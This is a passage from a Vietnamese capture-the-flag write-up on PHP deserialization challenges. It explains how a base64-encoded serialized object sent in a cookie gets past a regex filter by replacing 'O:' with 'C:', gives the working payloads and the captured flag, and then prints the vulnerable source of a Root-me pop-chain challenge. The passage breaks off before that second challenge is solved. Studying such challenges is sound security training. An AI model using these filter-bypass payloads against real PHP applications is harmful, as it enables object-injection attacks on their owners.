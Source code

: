 Để gọi hàm `sanitize` mình cần phải có `$_COOKIE['data']` và khi truyền vào `sanitize` data đã được `base64_decode` nên mình cần gửi payload `base64-encode`.

Payload có thể là 
```php
Tzo0OiJGbGFnIjowOnt9
// O:4:"Flag":0:{}
```
Khi chạy vào hàm `sanitize` mình cần bypass hàm `preg_match`,
`if` đầu tiên check các ký tự từ A-Z nên khó vượt qua vì mình phải gọi đến đối tượng `Flag`.
`if` thứ 2 thì không được match `O:[0-9]+:` và ở đây thì mình có gọi đối tượng là `O:4` nên cũng vượt qua được.
Sau khi tìm tài liệu thì mình thấy có thể thay thế `O` là `C` khi đó payload sẽ là:
```php
Qzo0OiJGbGFnIjowOnt9
// C:4:"Flag":0:{}
```

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/336376018_1145506886064258_6181906776892628204_n.png?_nc_cat=101&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lSGlkcZGusQAX-5cgUm&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTxn1WOu1AXZAtYHTInZO0HFKD4H3Di_83jM25ATFlyvw&oe=643786EF)

> Flag : WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}

# 6.PHP - Unserialize Pop Chain(Root me)

```Php
<?php
 
$getflag = false;
 
class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }
 
    function __toString() {
        return $this->receive;
    }
 
    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't see to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
            }
        }
    }
}
 
class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }
 
    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
```